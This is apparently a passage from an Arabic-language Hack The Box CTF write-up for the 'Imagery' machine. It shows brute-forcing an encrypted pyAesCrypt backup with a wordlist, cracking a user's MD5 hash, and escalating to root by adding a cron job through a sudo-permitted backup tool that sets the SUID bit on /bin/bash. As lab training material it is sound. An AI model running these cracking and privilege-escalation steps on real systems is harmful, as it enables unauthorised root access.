
نلاحظ أننا المستخدم `web` وعندنا مستخدم ثاني باسم `mark`،  بعد البحث في النظام نحصل ملف احتياط `zip` مشفر تحت `var/backup/`:
```shell
web@Imagery:/var/backup$ ls
web_20250806_120723.zip.aes
```
بعد ماننقله عندنا نشيك على نوع الملف ونحصل التالي:

```shell
/htb/ctf/imagery ················································  htb  07:46:43 PM
╰─❯ file web_20250806_120723.zip.aes
web_20250806_120723.zip.aes: AES encrypted data, version 2, created by "pyAesCrypt 6.1.1"
```

إذا بحثنا عن `pyAesCrypt` نجد أنها module لبايثون للتشفير. يمدينا نبحث عن أداة لكسر هذا التشفير "bruteforce". هذه أداة حصلتها باسم [pyAesCrypt-Decryptor-Brute-Forcer](https://github.com/dollarboysushil/pyAesCrypt-Decryptor-Brute-Forcer):

```shell
/htb/ctf/imagery ················································  htb  07:51:15 PM
╰─❯ python dbs_pyaescrypt_decryptor.py -i web_20250806_120723.zip.aes -w /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -o web.zip
Using temporary directory: /tmp/pyaes_bruteforce_8wxv_2sg
Workers: 1
[+] Output file exists: web.zip
[+] Password (reported by worker): redacted
[+] You can inspect with: file web.zip  && unzip -l web.zip
```

بعد مانفك الضغط عن ملف `web.zip` راح نحصل داخله ملف `db.json` واللي يحتوي على الهاش الخاص بالمستخدم `mark` بصيغة MD5. بعد مانكسر الهاش يمدينا ندخل على المستخدم `mark` ونكمل تصعيد الصلاحيات:

```shell
web@Imagery:/var/backup$ su mark
Password: 
bash-5.2$ whoami
mark
```
### تصعيد الصلاحيات ل root
بما أن عندنا كلمة المرور أول أمر بنفذه هو `sudo -l` واللي يعطيك الثنائيات اللي يمديك تشغلها بصلاحيات الروت:

```shell
bash-5.2$ sudo -l
Matching Defaults entries for mark on Imagery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mark may run the following commands on Imagery:
    (ALL) NOPASSWD: /usr/local/bin/charcol
```

عندنا ثنائية باسم `charcol` مسؤولة عن ضغط وتشفير الملفات الاحتياطية، تحتاج تشغلها المرة الأولى باستعمال `-R` عشان تغير كلمة المرور. المرة الثانية راح نشغلها باستعمال `shell`:

```shell
bash-5.2$ sudo /usr/local/bin/charcol shell

  ░██████  ░██                                                  ░██ 
 ░██   ░░██ ░██                                                  ░██ 
░██        ░████████   ░██████   ░██░████  ░███████   ░███████  ░██ 
░██        ░██    ░██       ░██  ░███     ░██    ░██ ░██    ░██ ░██ 
░██        ░██    ░██  ░███████  ░██      ░██        ░██    ░██ ░██ 
 ░██   ░██ ░██    ░██ ░██   ░██  ░██      ░██    ░██ ░██    ░██ ░██ 
  ░██████  ░██    ░██  ░█████░██ ░██       ░███████   ░███████  ░██ 
                                                                    
                                                                    
                                                                    
Charcol The Backup Suit - Development edition 1.0.0

[2026-01-24 17:23:04] [INFO] Entering Charcol interactive shell. Type 'help' for commands, 'exit' to quit.
charcol>
```

في قائمة المساعدة حقت الأدة `help` فيه أمر مهم جدا:

```shell
...
Automated Jobs (Cron):
    auto add --schedule "<cron_schedule>" --command "<shell_command>" --name "<job_name>" [--log-output <log_file>]
      Purpose: Add a new automated cron job managed by Charcol.
      Verification:
        - If '--app-password' is set (status 1): Requires Charcol application password (via global --app-password flag).
        - If 'no password' mode is set (status 2): Requires system password verification (in interactive shell).
      Security Warning: Charcol does NOT validate the safety of the --command. Use absolute paths.
...
```

يمدينا نضيف `cronjob` باستعمال أمر:
```shell
auto add --schedule "<cron_schedule>" --command "<shell_command>" --name "<job_name>"
```
وبما أننا شغلنا ثنائية `charcol` بصلاحيات `sudo` فهذا يعني أن ال `cronjob` راح يتنفذ بصلاحيات `sudo`. راح أعدل على الأمر شوية وأخليه ينفذ `chmod +s /bin/bash` كل دقيقة:

```shell
mark@Imagery:/home/web/web$ sudo /usr/local/bin/charcol -R     

Attempting to reset Charcol application password to default.
[2026-01-24 17:42:39] [INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: 

[2026-01-24 17:42:48] [ERROR] System password verification failed: Incorrect password. (Error Code: CSV-002)

mark@Imagery:/home/web/web$ sudo /usr/local/bin/charcol -R

Attempting to reset Charcol application password to default.
[2026-01-24 17:42:53] [INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: 

[2026-01-24 17:42:58] [INFO] System password verified successfully.
Removed existing config file: /root/.charcol/.charcol_config
Charcol application password has been reset to default (no password mode).
Please restart the application for changes to take effect.

mark@Imagery:/home/web/web$ sudo /usr/local/bin/charcol shell

First time setup: Set your Charcol application password.
Enter '1' to set a new password, or press Enter to use 'no password' mode: 
Are you sure you want to use 'no password' mode? (yes/no): yes
[2026-01-24 17:43:07] [INFO] Default application password choice saved to /root/.charcol/.charcol_config
Using 'no password' mode. This choice has been remembered.
Please restart the application for changes to take effect.

mark@Imagery:/home/web/web$ sudo /usr/local/bin/charcol shell

  ░██████  ░██                                                  ░██ 
 ░██   ░░██ ░██                                                  ░██ 
░██        ░████████   ░██████   ░██░████  ░███████   ░███████  ░██ 
░██        ░██    ░██       ░██  ░███     ░██    ░██ ░██    ░██ ░██ 
░██        ░██    ░██  ░███████  ░██      ░██        ░██    ░██ ░██ 
 ░██   ░██ ░██    ░██ ░██   ░██  ░██      ░██    ░██ ░██    ░██ ░██ 
  ░██████  ░██    ░██  ░█████░██ ░██       ░███████   ░███████  ░██ 
                                                                    
                                                                    
                                                                    
Charcol The Backup Suit - Development edition 1.0.0

[2026-01-24 17:43:09] [INFO] Entering Charcol interactive shell. Type 'help' for commands, 'exit' to quit.
<* * *" --command "chmod +s /bin/bash" --name "root"
[2026-01-24 17:43:23] [INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: 

[2026-01-24 17:43:29] [INFO] System password verified successfully.
[2026-01-24 17:43:29] [INFO] Auto job 'root' (ID: 131c1f72-40f5-4619-99fe-fc4edbcf287e) added successfully. The job will run according to schedule.
[2026-01-24 17:43:29] [INFO] Cron line added: * * * * * CHARCOL_NON_INTERACTIVE=true chmod +s /bin/bash
```
بعد دقيقة المفروض نحصل أن `bin/bash/` عنده SUID bit:

```shell
mark@Imagery:/home/web/web$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1474768 Oct 26  2024 /bin/bash

mark@Imagery:/home/web/web$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1474768 Oct 26  2024 /bin/bash
```

يمدينا الآن ننفذ `bin/bash -p/` ونحصل shell بصلاحيات الروت ونخلص التحدي

## الخاتمة
هذا التحدي من أمتع التحديات اللي لعبتها في المنصة وبحاول أركز على التحديات المتوسطة أكثر لأنها أمتع من السهلة. في حال وجود أي خطأ أو اقتراح يمديك تتواصل معي على تويتر.